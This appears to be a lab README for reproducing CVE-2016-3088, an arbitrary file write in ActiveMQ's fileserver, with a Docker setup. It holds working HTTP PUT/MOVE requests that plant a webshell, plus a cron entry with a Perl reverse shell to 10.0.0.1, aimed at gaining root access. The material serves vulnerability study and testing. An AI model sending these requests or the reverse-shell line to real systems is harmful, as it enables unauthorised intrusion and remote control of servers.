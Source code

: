 # ActiveMQ Arbitrary File Write Vulnerability (CVE-2016-3088)

[中文版本(Chinese version)](README.zh-cn.md)

## Environment construction:

Enter following command to build and run the vulnerability environment:

```
docker-compose build
docker-compose up -d
```    

The environment listens to port 61616 and port 8161, of which 8161 is the web console port. This vulnerability appears in the web console.

Visit `http://your-ip:8161/` to see the web page, indicating that the environment has been successfully run.

## Background brief

ActiveMQ web console is divided into three applications, admin, api and fileserver, where admin is the administrator page, api is the interface, fileserver is the interface for storing files; admin and api need to log in before they can be used, fileserver does not need to log in.

fileserver is a RESTful API interface. We can read and write files stored in it through HTTP requests such as GET, PUT, and DELETE. The design purpose is to compensate for the defect that the message queue operation cannot transfer and store binary files, but later found that:

1. Its usage rate is not high
2. File operations are prone to vulnerabilities

Therefore, ActiveMQ has closed the fileserver application by default in 5.12.x~5.13.x (you can open it in conf/jetty.xml); after 5.14.0, the fileserver application is completely removed.

In the test process, you should pay attention to the version of ActiveMQ, prevent useless effort.

## Vulnerability Details

This vulnerability appears in the Fileserver application, the vulnerability principle is actually very simple, that is, fileserver support to write files (but do not parse the JSP), while supporting the move file (MOVE request). So, we just need to write a file and then move it to any location by use a move request, causing arbitrary file write vulnerability.

Write files such as cron or ssh key

1. Write Webshell
2. Write files such as cron or ssh key
3. Write libraries and configuration files such as jar or jetty.xml

The advantage of writing webshell is convenient, but the fileserver don't parse jsp, admin and api both need to log in to access, so it is a bit futile; The advantage of writing cron or ssh key is to directly reverse Shell, it is convenient too, the disadvantage is that you need root privileges; write jar, a little trouble (requires jar back door), write xml configuration file, this method is more reliable, but there is a futile point: we need to know ActiveMQ absolute path.

Let we talk about the above several methods.

### Write Webshell

As I said earlier, the Webshell needs to be written in the Admin or Api app, and both applications need to be logged in to access.

The default ActiveMQ account and password is `admin`. First, visit `http://your-ip:8161/admin/test/systemProperties.jsp` to view the absolute path of ActiveMQ:

![](02.png)

Then upload Webshell:

```
PUT /fileserver/2.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

Then move it to the API folder (`/opt/activemq/webapps/api/s.jsp `) in the Web directory:

```
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

Access Webshell (login required):

![](03.png)

### Write crontab, automate reverse shell

This is a relatively stable method. First upload the cron configuration file (note that the newline must be `\n`, not `\r\n`, otherwise the crontab execution will fail):

```
PUT /fileserver/1.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Move it to `/etc/cron.d/root`:

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

If both of the above requests return 204, the write is successful. Waiting for the reverse shell:

![](01.png)

This method requires the ActiveMQ run as root, otherwise it will not be able to write to the cron file.

### Write jetty.xml or jar

In theory we can override jetty.xml, remove the login restrictions for admin and api, and then write webshell.

In some cases, the owner of jetty.xml and jar is the user of the web container, so the success rate of writing crontab is higher.

Not tested yet.